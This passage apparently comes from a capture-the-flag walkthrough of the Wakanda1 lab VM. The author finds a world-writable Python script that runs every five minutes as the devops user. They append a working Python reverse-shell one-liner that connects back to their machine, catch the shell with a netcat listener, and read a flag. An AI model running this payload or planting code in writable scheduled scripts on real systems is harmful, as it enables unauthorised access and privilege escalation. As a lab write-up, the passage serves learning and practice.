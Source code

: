 Couple of interesting files, /srv/.antivirus.py and /tmp/test. I looked at /srv/.antivirus.py and it contained this:

```
open('/tmp/test','w').write('test')
```

This Python script was world writable so I could modify it to execute whatever I wanted. However it wasn’t SUID devops, so it would just run under the mamadou user. I looked at /tmp/test and that’s when I noticed something interesting:

```
mamadou@Wakanda1:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 devops developer 4 Aug 11 00:27 test
mamadou@Wakanda1:~$ date
Sat Aug 11 00:30:13 EDT 2018
```

The timestamp that the /tmp/test was created was just two minutes ago from when I ran the date command. That led me to believe that /srv/.antivirus was being run on some kind of scheduler. I waited a few more minutes and checked again and noticed that /tmp/test had been updated:

```
mamadou@Wakanda1:~$ ls -l /tmp/test
-rw-r--r-- 1 devops developer 4 Aug 11 00:32 /tmp/test
```

That’s a 5 minute difference since the last run. So it looks like the scheduler executes this Python script as the devops user every 5 minutes. At this point I had a game plan. I modified the .antivirus.py so that it would connect back to my machine and give me a reverse shell as the devops user when the scheduler executed the script

```
mamadou@Wakanda1:/srv$ cat .antivirus.py
open('/tmp/test','w').write('test')
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.101",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Next I started a netcat listener on my machine and waited. 5 minutes later, I got a shell as devops:

```
root@kali:~/pwn# nc -lvp 9999
listening on [any] 9999 ...
192.168.56.102: inverse host lookup failed: Unknown host
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 39406
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(devops) gid=1002(developer) groups=1002(developer)
```

I could now get the second flag:

```
$ cat ~/flag2.txt
Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098
```
